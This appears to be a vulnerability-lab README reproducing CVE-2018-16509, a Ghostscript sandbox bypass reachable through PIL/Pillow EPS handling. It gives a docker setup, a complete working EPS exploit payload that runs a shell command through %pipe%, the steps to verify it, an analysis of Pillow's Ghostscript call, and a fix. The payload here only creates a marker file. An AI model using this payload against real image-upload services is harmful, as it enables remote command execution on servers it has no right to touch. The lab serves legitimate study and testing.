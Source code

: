 # Python PIL/Pillow Remote Command Execution (CVE-2018-16509)

[中文文档](README.zh-cn.md)

PIL/Pillow is a widely used image processing library in Python.

In Ghostscript versions prior to 9.24, there exists a -dSAFER sandbox bypass vulnerability (CVE-2018-16509). Incorrect "restoration of privilege" checking during handling of /invalidaccess exceptions could be used by attackers able to supply crafted PostScript to execute code using the "pipe" instruction.

This vulnerability affects various applications that use Ghostscript for image processing, including Python's PIL/Pillow library. When an application uses PIL/Pillow to process user-uploaded images and the environment has a vulnerable version of Ghostscript installed, it may lead to remote command execution.

References:

- [Ghostscript: -dSAFER bypass (CVE-2018-16509)](https://seclists.org/oss-sec/2018/q3/142)
- [PIL/Pillow EPS Image Processing](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)
- [Ghostscript Sandbox Bypass Analysis](https://paper.seebug.org/1159/)

## Environment Setup

Execute the following command to start a vulnerable Flask application (using Ghostscript 9.23):

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8000` to see a simple image upload page.

## Vulnerability Reproduction

Prepare a malicious EPS file (provided as `rce.jpg` in this environment) with the following content:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

Visit `http://your-ip:8000` and upload this file.

After uploading, the server will process this image using PIL/Pillow, and when the `resize` function is called, it will trigger the vulnerability and execute the `touch /tmp/got_rce` command.

Execute the following command to verify if the vulnerability has been successfully exploited:

```
docker compose exec web ls -la /tmp/
```

If you see the `/tmp/got_rce` file, it means the command execution was successful.

## Vulnerability Analysis

The core of the vulnerability lies in PIL/Pillow calling the system's Ghostscript program when processing EPS images. In `EPSImagePlugin.py`, PIL uses `subprocess` to call Ghostscript:

```python
command = ["gs",
           "-q",                         # quiet mode
           "-g%dx%d" % size,             # set output geometry (pixels)
           "-r%fx%f" % res,              # set input DPI (dots per inch)
           "-dBATCH",                    # exit after processing
           "-dNOPAUSE",                  # don't pause between pages
           "-dSAFER",                    # safe mode
           "-sDEVICE=ppmraw",            # ppm driver
           "-sOutputFile=%s" % outfile,  # output file
           "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                         # adjust for image origin
           "-f", infile,                 # input file
           "-c", "showpage",             # showpage
           ]
```

Although the `-dSAFER` parameter is used, Ghostscript versions prior to 9.24 have a sandbox bypass vulnerability that allows attackers to execute arbitrary commands through specially crafted PostScript code.

In the sample application, when an image is uploaded, it is processed as follows:

```python
img = Image.open(img_path)
w, h = img.size
ratio = 256.0 / max(w, h)

resized_img = img.resize((int(w * ratio), int(h * ratio)))
resized_img.save(img_path)
```

Simply calling `Image.open()` will not trigger the vulnerability, but when methods that actually need to load image data, such as `resize()` or `save()`, are called, they will trigger the Ghostscript call and execute malicious commands.

To fix this vulnerability, you need to update Ghostscript to version 9.24 or higher, or disable EPS image processing functionality when using PIL/Pillow to process user-uploaded images.
